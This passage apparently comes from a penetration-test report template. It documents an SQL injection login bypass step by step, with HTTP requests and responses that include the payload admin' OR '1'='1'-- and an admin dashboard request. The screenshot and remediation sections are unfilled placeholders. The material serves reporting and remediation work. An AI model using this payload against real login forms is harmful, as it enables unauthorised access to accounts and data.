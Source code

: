**Response:**

```http
HTTP/1.1 200 OK
Content-Type: text/html
Set-Cookie: sessionid=abc123...

<html>Welcome normaluser!</html>
```

#### Step 2: Exploitation Request

```http
POST /login HTTP/1.1
Host: vulnerable-site.com
User-Agent: Mozilla/5.0...
Content-Type: application/x-www-form-urlencoded

username=admin' OR '1'='1'--&password=anything
```

**Response:**

```http
HTTP/1.1 200 OK
Content-Type: text/html
Set-Cookie: sessionid=xyz789...

<html>Welcome admin!</html>
```

#### Step 3: Validation of Exploitation

```http
GET /admin/dashboard HTTP/1.1
Host: vulnerable-site.com
Cookie: sessionid=xyz789...

HTTP/1.1 200 OK
<html>Admin Dashboard - Sensitive Information</html>
```

**Screenshots:**

- [Description of screenshot 1]
- [Description of screenshot 2]
- [Description of screenshot 3]

**Evidence Files:**

### Remediation

1. [Immediate action 1 - specific technical step]
2. [Immediate action 2 - specific technical step]
3. [Immediate action 3 - specific technical step]

---
